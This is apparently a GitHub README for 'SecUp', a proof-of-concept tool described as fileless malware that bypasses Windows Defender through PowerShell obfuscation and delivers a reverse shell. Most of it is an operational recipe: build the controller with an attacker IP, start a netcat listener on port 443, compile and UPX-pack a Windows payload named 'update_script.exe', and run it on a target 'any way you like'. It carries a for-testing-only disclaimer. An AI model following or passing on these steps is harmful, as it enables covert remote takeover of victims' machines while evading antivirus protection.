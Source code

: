# SecUp "Malware for Learning"

!!! FOR SECURITY TESTING PURPOSES ONLY !!! <br>
\******************************************************<br>
DO NOT USE THIS ON SYSTEMS THAT YOU DO NOT <br>
OWN UNLESS YOU HAVE EXPRESS PERMISSION !!!

Fileless malware that bypasses Windows Defender using PowerShell and obfuscation. <br>
Just a simple Reverse Shell using a batch script to kick things off, after which everything is fileless.

YouTube video demonstration and explanation >>> https://youtu.be/BFVzmZXIbQk

Setup is simple.<br>
1. Clone this repo<br>
`git clone https://github.com/daniellowrie/update_script`
2. Build `SecUp.go`<br>
`go build SecUp.go`
3. From terminal, run: ./SecUp <LHOST><br>
`./SecUp 192.168.1.200`
4. Open another terminal, and start a Listener on port 443 (sudo if not root)<br>
`sudo nc -vnlp 443`
5. Compile EXE<br>
`GOOS=windows go build -ldflags "-s -w" -trimpath update_script.go`<br>
`upx -9 update_script.exe`
6. Back at the SecUp terminal<br>
`Press ENTER to continue...`
7. Upload and execute `update_script.exe` to target any way you like<br>
8. Shellz! :)
<P></P>
<P></P>
Going to work on building a better mousetrap as this was just a PoC at making something 'malicious' that could bypass Defender.
<P></P>



https://user-images.githubusercontent.com/19762230/132001237-04ae01ae-102e-4070-9599-ad05128c3f73.mp4


